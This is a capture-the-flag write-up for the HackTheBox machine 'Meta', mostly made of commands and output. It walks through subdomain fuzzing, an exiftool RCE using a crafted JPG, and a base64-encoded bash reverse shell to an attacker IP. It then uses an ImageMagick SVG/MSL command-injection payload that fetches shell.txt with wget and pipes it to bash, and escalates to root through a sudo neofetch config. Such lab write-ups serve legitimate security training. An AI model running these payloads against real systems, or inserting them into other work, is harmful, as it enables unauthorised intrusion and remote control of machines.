




# Meta - HackTheBox





## 1. Enumeration

#### Nmap Scan

```
# Nmap 7.92 scan initiated Sun Jun 19 03:22:55 2022 as: nmap -sC -sV -oN nmap_init 10.10.11.140
Nmap scan report for 10.10.11.140
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 19 03:23:18 2022 -- 1 IP address (1 host up) scanned in 22.81 seconds

```

Add artcorp.htb to /etc/hosts and browse the domain. There is no features and also no directories even after performing directory bruteforcing.


#### Subdomain Bruteforcing

```
┌──(root💀kali)-[~/htb/machines/meta]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://artcorp.htb/ -H "Host: FUZZ.artcorp.htb" -fc 301

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://artcorp.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.artcorp.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 301
________________________________________________

dev01                   [Status: 200, Size: 247, Words: 16, Lines: 10, Duration: 302ms]

```

We got a subdomain dev01 and add it to /etc/hosts.


Can only upload images with jpg/png extension.




After uploading the image it is analysing through exiftool and giving us output. After checking for vulnerabilities with exiftool we can find an RCE.

[GitHub - OneSecCyber/JPEG_RCE: Exiftool bug which leads to RCE](https://github.com/OneSecCyber/JPEG_RCE)

After clonning this repo from github we can start exploiting it.


```
exiftool -config eval.config runme.jpg -eval='system("ls -la")'
```

By running this command, It will create malicious jpg file. It works.

Now we can do a reverse shell. 

```
┌──(root💀kali)-[~/htb/machines/meta/JPEG_RCE]
└─# echo "bash -i >& /dev/tcp/10.10.14.68/9090 0>&1" | base64                            1 ⨯
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42OC85MDkwIDA+JjEK
```

Now turn on the netcat listener.

```
┌──(root💀kali)-[~/htb/machines/meta/JPEG_RCE]
└─# exiftool -config eval.config runme.jpg -eval='system("echo -n 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42OC85MDkwIDA+JjEK' | base64 -d | bash")'

```

This injects malicious code which gives a reverse shell into the jpg file. By uploading it we get the reverse shell.

```
bash-5.0$ whoami
www-data
bash-5.0$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```


## 2. Foothold

First step -  stabilise shell using python3. And after looking around, can't find anything interesting.

```bash
bash-5.0$ pwd
/var/www/dev01.artcorp.htb/convert_images

bash-5.0$ grep -R convert_images / 2>/dev/null
/usr/local/bin/convert_images.sh:cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null

```

We can find the version of mogrify by,

```
bash-5.0$ /usr/local/bin/mogrify
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib

```

By checking for vulnerabilities in ImageMagick we can find a command injection vulnerability.




## 3. Lateral Movement

First i have created a shell.txt file to get reverse shell.

```
┌──(root💀kali)-[~/htb/machines/meta/JPEG_RCE]
└─# cat shell.txt
/bin/bash -i &>/dev/tcp/10.10.14.68/9000 0>&1
```

And then create an svg file to run the exploit,

```
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /tmp/pwned.svg 
<image authenticate='ff" `wget -O - 10.10.14.68:8000/shell.txt | /bin/bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:pwned.svg" height="100" width="100"/>
  </svg>
</image>

```

While this svg file executes it takes the shell.txt and executes it. To execute we copy pwned.svg to /var/www/dev01.artcorp.htb/convert_images and run it by,

```
/usr/local/bin/mogrify -format png *.*
```

Suddenly we gets a reverse shell and we should exit from it and when the cronjob runs we gets the user shell which is thomas and we got the user flag.

```
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ whoami
whoami
thomas
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ id
id
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
```


## 4. Privilege Escalation

```
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"

```

neofetch is running with NOPASSWD option.





```
thomas@meta:~$ export XDG_CONFIG_HOME=/home/thomas/.config/

thomas@meta:~$ echo $XDG_CONFIG_HOME
/home/thomas/.config/

```


```
thomas@meta:~/.config/neofetch$ ls
config.conf  neofetch
thomas@meta:~/.config/neofetch$ echo 'exec /bin/sh' >> config.conf

thomas@meta:~/.config/neofetch$ sudo /usr/bin/neofetch \"\"
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root

```
